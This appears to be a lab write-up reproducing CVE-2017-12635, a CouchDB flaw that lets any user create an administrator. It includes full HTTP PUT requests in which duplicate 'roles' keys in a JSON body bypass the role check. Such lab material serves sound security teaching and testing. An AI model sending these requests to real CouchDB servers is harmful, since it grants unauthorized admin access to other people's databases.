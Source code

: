 # Couchdb Vertical Permissions Bypass Vulnerability (CVE-2017-12635)

Apache CouchDB is an open source database that focuses on ease of use and becomes "a database that fully embraces the web." It is a NoSQL database that uses JSON as the storage format, JavaScript as the query language, MapReduce and HTTP as the API. Widely used, such as the BBC used in its dynamic content display platform, Credit Suisse uses the market framework of its internal merchandise department, Meebo, used in its social platforms (web and applications).

On November 15, 2017, CVE-2017-12635 and CVE-2017-12636 disclose that CVE-2017-12635 is caused by the difference in the way JSON is parsed by Erlang and JavaScript, resulting in differences in statement execution. This vulnerability allows any user to create an administrator and is a vertical permission bypass vulnerability.

Impact version: less than 1.7.0 and less than 2.1.1

Reference link:

 - http://bobao.360.cn/learning/detail/4716.html
 - https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

## test environment

Compile and start the environment:

```
Docker-compose build
Docker-compose up -d
```

After the environment is started, visit `http://your-ip:5984/_utils/` to see a web page indicating that Couchdb has started successfully. But we don't know the password and can't log in.

## Vulnerability recurrence

First, send the following packet:

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

Visible, return 403 error: `{"error": "forbidden", "reason": "Only _admin may set roles"}`, only the administrator can set the Role role:

![](1.png)

By sending a packet containing two roles, you can bypass the limit:

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

Successfully created the administrator, the account password is `vulhub`:

![](2.png)

Visit `http://your-ip:5984/_utils/` again and enter the account password `vulhub` to log in successfully:

![](3.png)
